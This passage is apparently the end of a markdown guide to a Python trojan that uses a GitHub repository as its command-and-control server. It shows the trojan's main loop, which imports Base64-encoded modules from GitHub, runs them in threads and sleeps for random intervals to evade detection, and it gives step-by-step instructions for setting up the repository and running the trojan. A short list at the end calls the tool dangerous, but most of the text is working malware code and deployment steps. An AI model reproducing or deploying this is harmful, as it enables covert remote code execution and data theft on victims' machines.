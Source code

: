 
### **8️⃣ Main Execution Loop**
```python
sys.meta_path = [GitImporter()]

while True:
    if task_queue.empty():
        config = get_trojan_config()
        for task in config:
            t = threading.Thread(target=module_runner, args=(task['module'],))
            t.start()
            time.sleep(random.randint(1,10))
    time.sleep(random.randint(1000, 10000))
```
- **Uses `GitImporter()` to dynamically import modules**.
- **Loads configuration and executes tasks in threads**.
- **Runs continuously with random time delays** to avoid detection.

---

# **🚀 How to Run**
### **1️⃣ Install Dependencies**
```sh
pip install github3.py
```

### **2️⃣ Configure GitHub Repository**
- Create a **GitHub repository**.
- Store the **trojan configuration (`config/abc.json`)**.
- Store **Python modules (`modules/`)** in Base64 format.

### **3️⃣ Execute the Trojan**
```sh
python trojan.py
```

---

# **🔥 Why is This Dangerous?**
✔ **Uses GitHub as a Command & Control (C2) server**.  
✔ **Dynamically loads and executes code** in memory.  
✔ **Stealthy—runs in the background with random delays**.  
✔ **Can be used for data exfiltration or executing malicious payloads**.  

